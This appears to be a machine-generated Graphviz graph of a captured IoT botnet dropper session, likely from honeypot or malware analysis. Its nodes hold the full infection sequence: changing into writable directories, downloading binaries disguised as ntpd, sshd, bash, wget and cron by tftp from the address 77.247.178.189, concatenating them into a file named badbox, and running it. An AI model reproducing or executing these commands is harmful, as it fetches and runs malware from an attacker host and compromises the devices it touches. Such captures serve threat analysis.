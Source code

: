 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 14 [label="||,"];
14 [label="tftp 77.247.178.189 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 34 [label="||,"];
34 [label="tftp 77.247.178.189 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 54 [label="||,"];
54 [label="tftp 77.247.178.189 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 74 [label="||,"];
74 [label="tftp 77.247.178.189 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 94 [label="||,"];
94 [label="tftp 77.247.178.189 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 114 [label="||,"];
114 [label="tftp 77.247.178.189 -c get wget "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 134 [label="||,"];
134 [label="tftp 77.247.178.189 -c get cron "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 154 [label="||,"];
154 [label="tftp 77.247.178.189 -c get ftp "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 174 [label="||,"];
174 [label="tftp 77.247.178.189 -c get pftp "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 194 [label="||,"];
194 [label="tftp 77.247.178.189 -c get sh "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
}
